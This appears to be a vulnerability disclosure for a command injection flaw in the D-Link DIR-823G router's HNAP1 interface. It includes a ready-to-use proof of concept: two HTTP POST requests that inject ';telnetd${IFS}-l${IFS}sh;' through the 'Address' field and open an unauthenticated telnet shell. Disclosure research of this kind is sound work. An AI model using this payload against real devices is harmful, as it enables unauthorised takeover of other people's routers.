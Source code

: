 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_823G

Version:1.0.2B05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `goahead` binary:

In `SetNetworkTomographySettings` function, `Address` is directly passed by the attacker. After that, call the function `apmib_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `GetNetworkTomographyResult` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `Address`=**;telnetd${IFS}-l${IFS}sh;**, in (`SetNetworkTomographySettings`)
* visit the `GetNetworkTomographyResult`



## PoC

We set `Address`=**;telnetd${IFS}-l${IFS}sh;**, in (`SetNetworkTomographySettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: C555E6FE47BFA313D376387B0D6A006C 1728991191
X-Requested-With: XMLHttpRequest
Content-Length: 423
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html
Cookie: uid=RQbvriUgfO; PrivateKey=6A4538C7FABD7051030574A855AD4085; timeout=17

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/"><Address>;telnetd${IFS}-l${IFS}sh;</Address><Number>5</Number><Size>64</Size></SetNetworkTomographySettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

visit the `GetNetworkTomographyResult`

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/GetNetworkTomographyResult"
HNAP_AUTH: 71D275C18F144981BAE65EAA665143F0 1728991394
X-Requested-With: XMLHttpRequest
Content-Length: 315
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html
Cookie: uid=RQbvriUgfO; PrivateKey=6A4538C7FABD7051030574A855AD4085; timeout=29

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/" /></soap:Body></soap:Envelope>
```



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:100%;" /></div>
